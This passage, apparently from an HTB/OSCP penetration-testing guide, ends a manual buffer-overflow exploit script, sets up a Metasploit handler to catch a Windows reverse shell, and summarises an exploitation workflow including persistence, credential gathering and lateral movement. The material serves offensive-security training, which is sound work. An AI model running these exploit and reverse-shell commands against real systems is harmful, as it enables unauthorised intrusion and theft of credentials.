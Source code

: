 ```bash
        s.connect((target_ip, target_port))
        s.send(payload)
        s.close()
        print("[+] Manual exploit sent successfully")
        
    except Exception as e:
        print(f"[-] Manual exploit failed: {str(e)}")

# Execute manual exploit
manual_buffer_overflow("192.168.1.10", 9999)
EOF

# Step 3: Catch shell with Metasploit handler
msfconsole -x "
use exploit/multi/handler;
set payload windows/shell_reverse_tcp;
set LHOST 192.168.1.5;
set LPORT 4444;
exploit -j -z"

# Step 4: Upgrade shell to meterpreter
# Once shell is caught:
# sessions -u 1  # Upgrade session 1 to meterpreter
```

## Exploitation Methodology Summary

### **HTB/OSCP Exploitation Workflow**

**Systematic approach for successful exploitation:**

1. **Vulnerability Assessment**
   - Correlate reconnaissance findings with known vulnerabilities
   - Research CVE details and proof-of-concept exploits
   - Identify exploit requirements and constraints
   - Assess likelihood of successful exploitation

2. **Exploit Selection and Preparation**
   - Start with Metasploit for known vulnerabilities
   - Prepare manual exploits for custom scenarios
   - Generate appropriate payloads for target environment
   - Test exploits in lab environment when possible

3. **Exploitation Execution**
   - Execute automated exploits first (higher reliability)
   - Fall back to manual techniques if automated fails
   - Use staged approach: initial access → privilege escalation
   - Maintain access through multiple vectors

4. **Post-Exploitation Activities**
   - Establish persistent access mechanisms
   - Enumerate system for additional vulnerabilities
   - Gather credentials and sensitive information
   - Prepare for lateral movement
